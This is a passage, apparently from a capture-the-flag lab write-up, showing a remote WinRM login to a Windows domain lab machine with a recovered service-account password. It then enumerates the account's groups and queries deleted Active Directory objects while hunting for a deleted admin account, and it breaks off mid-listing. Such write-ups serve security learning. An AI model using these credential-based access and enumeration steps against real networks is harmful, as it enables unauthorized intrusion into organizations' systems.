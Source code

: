 ```ruby
evil-winrm -i 10.10.10.182 -u ArkSvc -p w3lc0meFr31nd

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> net user ArkSvc
User name                    arksvc
Full Name                    ArkSvc
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 5:18:20 PM
Password expires             Never
Password changeable          1/9/2020 5:18:20 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/29/2020 10:05:40 PM

Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin       *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.

```

From the notes, we know ArkSvc has deleted some object related to TempAdmin and also ArkSvc belong to group named "AD Recycle Bin".

With the command, Get-ADOjbect, we can check the objects deleted by the user ArkSvc

```bash
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects


Deleted           : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name              : CASC-WS1
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass       : computer
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe

Deleted           : True
DistinguishedName : CN=Scheduled Tasks\0ADEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2,CN=Deleted Objects,DC=cascade,DC=local
Name              : Scheduled Tasks
                    DEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2
ObjectClass       : group
ObjectGUID        : 13375728-5ddb-4137-b8b8-b9041d1d3fd2

Deleted           : True
```